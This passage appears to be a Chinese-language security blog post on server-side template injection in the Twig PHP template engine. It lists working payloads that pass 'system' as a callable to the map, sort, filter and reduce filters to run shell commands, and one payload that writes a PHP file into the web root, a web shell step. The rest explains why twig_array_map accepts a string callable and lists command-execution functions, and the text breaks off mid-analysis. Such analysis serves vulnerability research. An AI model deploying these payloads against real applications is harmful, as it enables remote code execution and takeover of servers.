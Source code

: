 

## 全版本 通用 SSTI payload

### payloads

直接上结论，下面的payload在Twig 3.x 版本测试通过，看了1.x和2.x版本的代码，应该也是可以利用的。

- `{{["id"]|map("system")|join(",")`
- `{{["id", 0]|sort("system")|join(",")}}`
- `{{["id"]|filter("system")|join(",")}}`
- `{{[0, 0]|reduce("system", "id")|join(",")}}`
- `{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}`

### 分析

#### map

文档里面map的用法

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200331200906-6b7cf264-7348-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200331200906-6b7cf264-7348-1.png)

允许用户传一个arrow function， arrow function最后会变成一个`closure`

举个例子

```twig
{{["man"]|map((arg)=>"hello #{arg}")}}
```

会被编译成

```php
twig_array_map([0 => "id"], function ($__arg__) use ($context, $macros) { $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))
```

`map` 对应的函数是`twig_array_map` ,下面是其实现

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);
    }

    return $r;
}
```

从上面的代码我们可以看到，$arrow 是可控的，可以不传arrow function，可以只传一个字符串。所以我们需要找个两个参数的能够命令执行的危险函数即可。通过查阅常见的命令执行函数：

- > system ( string `$command` [, int `&$return_var` ] ) : string

- > passthru ( string `$command` [, int `&$return_var` ] )
